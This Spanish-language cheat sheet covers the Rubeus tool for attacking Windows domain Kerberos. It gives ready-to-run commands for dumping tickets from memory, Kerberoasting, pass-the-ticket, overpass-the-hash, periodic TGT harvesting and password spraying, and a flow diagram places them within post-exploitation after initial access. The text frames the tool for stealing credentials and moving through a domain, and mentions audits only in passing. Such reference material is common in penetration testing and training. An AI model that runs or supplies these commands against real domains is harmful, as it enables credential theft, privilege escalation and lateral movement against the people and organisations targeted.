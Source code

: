 Es una herramienta para moverse, escalar privilegios y robar credenciales dentro de un dominio.

Se usa cuando ya tienes un acceso inicial a una máquina del dominio, cuando ya tienes privs altos o SYSTEM para sacar tickets o en auditorías para ataques como Kerberoasting o AS-REP Roasting.

Listar tickets actuales:

```
Rubeus.exe dump
```

Kerberoasting (robar hashes de servicio):

```
Rubeus.exe kerberoast
```

Pass the ticket:

```
Rubeus.exe ptt /ticket:ticket.kirbi
```

Overpass the hash:

```
Rubeus.exe asktgt /user:<usuario> /rc4:<hash>
```

Este comando le dice a Rubeus que recolecte tickets TGT cada 30 segundos:

```
Rubeus.exe harvest /interval:30
```

Password spraying:

```
Rubeus.exe brute /password:<contraseña> /noticket
```

Esto tomará una contraseña dada y la “rociará” contra todos los usuarios encontrados y luego le dará el  TGT .kirbi  para ese usuario



Github: https://github.com/GhostPack/Rubeus

[ Acceso inicial a máquina en el dominio ]
             |
             v
     ┌───────────────────────────┐
     │   Recolección de Tickets  │
     └───────────────────────────┘
        dump → extraer tickets TGT/TGS de memoria
        harvest → seguir capturando tickets nuevos

             |
             v
     ┌───────────────────────────┐
     │  Ataques a contraseñas    │
     └───────────────────────────┘
        kerberoast → pedir TGS de SPN y crackear
        asreproast → usuarios sin preautenticación
